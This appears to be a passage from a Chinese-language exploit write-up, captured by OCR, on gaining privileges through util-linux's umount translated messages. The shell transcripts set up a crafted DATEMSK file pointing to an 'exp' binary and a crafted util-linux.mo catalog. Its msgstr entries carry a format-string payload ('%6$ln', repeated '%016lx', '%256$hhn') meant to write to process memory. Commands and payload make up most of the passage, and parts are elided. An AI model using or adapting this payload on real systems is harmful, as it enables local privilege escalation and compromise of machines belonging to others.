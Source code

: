 ```
    │               └── util-linux.mo
    └── x


10 directories, 5 files 
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executable

invincible@ubuntu:/proc/10013/cwd$ 
invincible@ubuntu:/proc/10013/cwd$ file ready 
ready: empty


invincible@ubuntu:/proc/10013/cwd$ file \(unreachable\)/tmp/from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo 
(省略...)/util-linux.mo: GNU message catalog (little endian), revision 0.0, 4 messages


invincible@ubuntu:/proc/10013/cwd$ file \(unreachable\)/tmp/from_archive/X.X/LC_MESSAGES/util-linux.mo 
(省略...)/util-linux.mo: fifo (named pipe)

```

构造的DATEMSK文件内容为/proc/self/exe符号链接指向的文件:

```
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executabl

```

构造特制的util-linux.mo文件内容:

```
invincible@ubuntu:~/Desktop/test$ msgunfmt util-linux.mo -o util-linux.po
invincible@ubuntu:~/Desktop/test$ cat util-linux.po 
msgid ""
msgstr ""
"Language: en\n"
"MIME-Version: 1.0\n"
"Content-Type: text/plain; charset=UTF-8\n"
"Content-Transfer-Encoding: 8bit\n"


msgid "%s: mountpoint not found"
msgstr "1234"


msgid "%s: not mounted"
msgstr ""
"AA%6$lnAAAAAA%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
(省略... 共256个%16lx)
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%1$68hhx%256$hhn"


msgid ""
"%s: target is busy\n"
```